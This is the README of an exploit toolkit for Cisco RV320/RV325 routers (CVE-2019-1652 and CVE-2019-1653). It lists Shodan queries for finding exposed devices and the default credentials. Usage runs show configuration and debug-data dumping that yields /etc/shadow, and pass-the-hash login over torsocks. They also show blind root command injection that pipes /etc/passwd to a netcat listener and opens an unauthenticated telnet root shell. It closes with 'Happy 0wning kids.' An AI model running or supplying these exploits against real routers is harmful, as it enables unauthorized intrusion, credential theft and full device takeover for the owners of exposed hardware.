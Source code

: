 # CiscoRV320Dump
CVE-2019-1653/CVE-2019-1652 Exploits For Dumping Cisco RV320 Configurations and getting RCE

Implementations of the CVE-2019-1652 and CVE-2019-1653 exploits disclosed by [Red Team Pentesting GmbH](http://www.redteam-pentesting.de).

I only tested these on an RV320, but according to the [Cisco advisory](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-info), the RV325 is also vulnerable.

The following [Shodan](https://shodan.io) queries appear to find them, if you are curious about how many are out there. There seems to be quite a few...  
[ssl:RV320](https://www.shodan.io/search?query=ssl%3ARV320)  
[ssl:RV325](https://www.shodan.io/search?query=ssl%3ARV325)  
[port:161 RV325](https://www.shodan.io/search?query=port%3A161+RV325)  
[port:161 RV320](https://www.shodan.io/search?query=port%3A161+RV320)  

The vulnerabilities allow for the following:
* Dumping (Plaintext) Configuration File! (includes hashes for the webUI!)
* Dumping (Encrypted) Diagnostic/Debug Files! (including config, and the /etc and /var directories)
* Decrypting the encrypted Diagnostic/Debug Files! (yes, you get /etc/shadow!)
* Post-Authentication Remote Command Injection as root in the webUI!

As an aside, the default creds are cisco:cisco.

## Exploits...

### Config Dumper Exploit...
For the [configuration dump exploit](https://seclists.org/fulldisclosure/2019/Jan/52), just set target, port, ssl on/off, and output directory. It will dump the configuration to there. 
```
$ python dump_config.py -t x.x.x.x -p 8443 -s -d output
{+} Sending request to https://x.x.x.x:8443/cgi-bin/config.exp
{*} We seem to have found a valid config! Writing to output/x.x.x.x_8443.conf
$
```

### Debug Data Dumper Exploit...
For the [debug data dumping exploit](https://seclists.org/fulldisclosure/2019/Jan/53), it is the same routine, but the dumped data is larger and encrypted. 
You will want to decrypt this using the provided "decrypt.sh" script, or manually using `openssl`. This will give you a tar file.
The debug output not only gets you the config, but also backups of `/etc` and `/var`, and yes, the `/etc/shadow/` file is present.
I'll eventually rewrite the decryption script in Python, but this was a quick kludge.
```
$ python dump_debug.py -t x.x.x.x -p 8443 -s -d output
{+} Sending request to https://x.x.x.x:8443/cgi-bin/export_debug_msg.exp
{*} We seem to have found a valid encrypted config! Writing to output/x.x.x.x_8443.enc
$ ./decrypt.sh output/x.x.x.x_8443.enc 
Cisco Encrypted Debug Data Decryption Script!
{+} Decrypting output/x.x.x.x_8443.enc
{+} Plaintext should be at output/x.x.x.x_8443.enc.decrypted.tar.gz...
$ 
```

Using the creds you get from these (hashed) you can then exploit [CVE-2019-1652](https://seclists.org/fulldisclosure/2019/Jan/54) to execute commands on the device. 

A few notes on the "hashing" of the password, before we go any further. On these, in the config file, you will find a variable named PASSWD followed by an md5 hash. 
This md5 hash is `md5($password.$auth_key)`, where the auth_key is a static value you can find by doing a `GET /` and parsing. 
There is a seemingly common one that I hardcoded into the RCE exploit as a fallback incase the page parser bullshit regex fails.

### Post-Auth RCE Exploit
CVE-2019-1652 outlines a trivial shell command injection vulnerability, which requires authentication. `exec_cmd.py` implements this, assuming you have valid login creds. "cisco:cisco" is the default, but you could also crack some hashes.

The command injection is blind, so you won't get any output. The environment is an incredibly limited Busybox setup with a crippled netcat, and the boxes are mips64, so I didn't bother writing a reverse-shell exploit this time. You can, however, get command output by doing stuff like `cat /etc/passwd | nc HOST PORT` and having a listener running, or whatever. 

You can also inject a command like `telnetd -l /bin/sh -p 1337` and connect to the resultant telnet service, which will serve you up a nice unauthenticated root shell.

Example run of the exploit below:  
```
$ python exec_cmd.py -t x.x.x.x -s -p 8443 -U cisco -P cisco -c "cat /etc/passwd | nc x.x.x.x 1337"
{+} Sending request to https://x.x.x.x:8443/ to extract auth key...
{*} Got auth_key value: 1964300002
{+} Login Successful, we can proceed!
{+} Ok, now to run your command: cat /etc/passwd | nc x.x.x.x 1337
{+} We don't get output so... Yeah. Shits blind.
$
# on listener...
$ nc -lp 1337
root:x:0:0:root:/:/bin/admin
nobody:x:0:0:nobody:/nonexistent:/bin/false
_lldpd:x:501:501:_lldpd:/:/bin/sh
cisco:x:0:0:root:/bin:/bin/admin

$
```

### "Full Package" Exploit
So because Cisco, you can actually pass the hash you extract and get a logged in session. So we wrote an exploit that extracts the hash and passes it.
This is called `easy_access.py`. Because the path of the CGI binaries contains a folder named "EasyAccess".

Example run of EasyAccess below...

```
$ torsocks python easy_access.py -t x.x.x.x -p 8443 -s -c "telnetd -l /bin/sh -p 1337"
{+} Gonna go grab us a config file...
{+} Sending request to https://x.x.x.x:8443/cgi-bin/config.exp
{*} We seem to have found a valid config!
{+} Extracting Creds...
{+} Got user: cisco
{+} Got password (hash): [redacted]
{+} Sending request to https://x.x.x.x:8443/ to extract auth key...
{*} Got auth_key value: 1964300002
{+} Login Successful, we can proceed!
{+} Ok, now to run your command: telnetd -l /bin/sh -p 1337
{+} We don't get output so... Yeah. Shits blind.

$ telnet x.x.x.x 1337
<snip>
BusyBox v1.2.1 (2017.10.30-07:33+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

~ # id
uid=0(root) gid=99(nobody)
~ # 
```

Happy 0wning kids. 
